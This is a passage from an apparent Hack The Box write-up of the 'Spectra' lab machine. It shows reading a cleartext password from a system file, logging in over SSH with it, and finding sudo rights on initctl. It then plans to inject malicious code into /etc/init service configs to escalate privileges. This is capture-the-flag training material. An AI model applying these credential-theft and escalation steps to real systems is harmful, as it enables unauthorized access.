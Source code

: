 ```sh
nginx@spectra / $ cd /etc/autologin
cd /etc/autologin
nginx@spectra /etc/autologin $ ls
ls
passwd
nginx@spectra /etc/autologin $ cat passwd
cat passwd
SummerHereWeCome!!
```

Let's try loggin in trough ssh

```sh
$ ssh katie@10.10.10.229
Password:
katie@spectra ~ $

```

And we are in, and we now have access to the user flag:

![User Flag](./assets/2021-05-19-hack-the-box-spectra/user-flag.png)

It seems that katie has access to initctl

```sh
katie@spectra / $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
katie@spectra / $
```

As you can see in figure 01 initctl own SUDO privileges. Usually initctl works with service configuration file located at /etc/init directory on linux servers. mmmmm. so What if we can inject malicious code into that services. Let’s have a look

```sh
katie@spectra / $ ls -al /etc/init

<snip>
-rw-r--r--  1 root root         671 Dec 22 06:10 tcsd.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
-rw-r--r--  1 root root        2645 Dec 22 05:53 tlsdated.conf
-rw-r--r--  1 root root        1276 Dec 22 06:10 tpm-probe.conf
-rw-r--r--  1 root root         673 Jan 15 15:33 tpm_managerd.conf
<snip>
```
